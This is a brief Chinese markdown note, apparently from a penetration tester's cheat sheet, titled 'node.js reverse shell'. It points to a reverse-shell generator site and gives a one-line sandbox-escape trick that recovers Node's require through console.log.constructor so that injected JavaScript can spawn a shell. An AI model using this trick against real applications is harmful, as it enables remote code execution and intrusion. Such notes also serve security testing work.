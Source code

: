 # node.js反弹

存在js输入点

```bash
https://www.revshells.com/
第二行添加如下
const require = console.log.constructor('return process.mainModule.require')();
```
